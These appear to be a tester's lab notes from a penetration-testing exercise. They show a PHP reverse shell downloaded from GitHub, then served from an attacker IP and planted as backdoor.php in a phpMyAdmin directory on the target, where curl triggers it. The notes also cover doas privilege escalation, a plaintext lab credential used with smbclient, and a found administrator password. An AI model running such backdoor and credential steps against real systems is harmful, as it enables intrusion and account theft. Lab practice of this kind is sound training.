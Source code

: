 Kali: 

```
wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php
```

start HTTP server

Target:

```
 
wget http://192.168.45.216/php_reverse_shell.php -O /usr/local/www/apache24/data/phpMyAdmin/tmp/backdoor.php` 


doas service apache24 onestart

curl http://127.0.0.1/phpMyAdmin/tmp/backdoor.php
```

The incomming shell shold have privileges in order to run the previous command in order to include Andrew to Wheel group

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/

I must had gotten shell with this but didn't got any
but creds are this


**mountuser: DRtajyCwcbWvH/9**

```
smbclient //172.16.138.21/monitoring -U relia//mountuser%DRtajyCwcbWvH/9
```

![[Pasted image 20240608163852.png]]

![[Pasted image 20240608163357.png]]

got administrator pass with one of the txt files!!!!

